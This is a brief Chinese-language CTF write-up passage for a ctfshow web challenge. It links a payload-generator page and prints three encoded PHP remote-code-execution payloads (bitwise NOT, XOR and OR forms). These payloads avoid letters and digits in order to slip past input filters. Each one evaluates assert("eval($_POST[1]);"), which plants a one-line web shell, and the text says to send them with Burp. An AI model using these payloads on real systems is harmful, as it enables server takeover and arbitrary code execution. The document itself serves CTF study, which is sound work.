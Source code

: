![16](/medias/ctfshow-web/16.png)

用ai简单写了一个纯前端payload生成页面[无字母数字代码执行payload生成](https://the0n3.top/rce/)，实现细节参考[PHP无字母数字RCE 或、异或、取反实现](https://the0n3.top/pages/92040c/)

几种方式实现的payload

```bash
# payload：assert("eval($_POST[1]);");
# 取反
(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%C4);
# 异或
(('%bf'^'%de').('%bf'^'%cc').('%bf'^'%cc').('%bf'^'%da').('%bf'^'%cd').('%bf'^'%cb'))(('%bf'^'%da').('%bf'^'%c9').('%bf'^'%de').('%bf'^'%d3').('%df'^'%f7').('%df'^'%fb').('%bf'^'%e0').('%bf'^'%ef').('%bf'^'%f0').('%bf'^'%ec').('%bf'^'%eb').('%bf'^'%e4').('%df'^'%ee').('%bf'^'%e2').('%df'^'%f6').('%df'^'%e4'));
# 或
(('%61'|'%61').('%73'|'%73').('%73'|'%73').('%65'|'%65').('%72'|'%72').('%74'|'%74'))(('%65'|'%65').('%76'|'%76').('%61'|'%61').('%6c'|'%6c').('%28'|'%28').('%24'|'%24').('%5f'|'%5f').('%50'|'%50').('%4f'|'%4f').('%53'|'%53').('%54'|'%54').('%5b'|'%5b').('%31'|'%31').('%5d'|'%5d').('%29'|'%29'));
```



生成的payload要使用`burp`发送
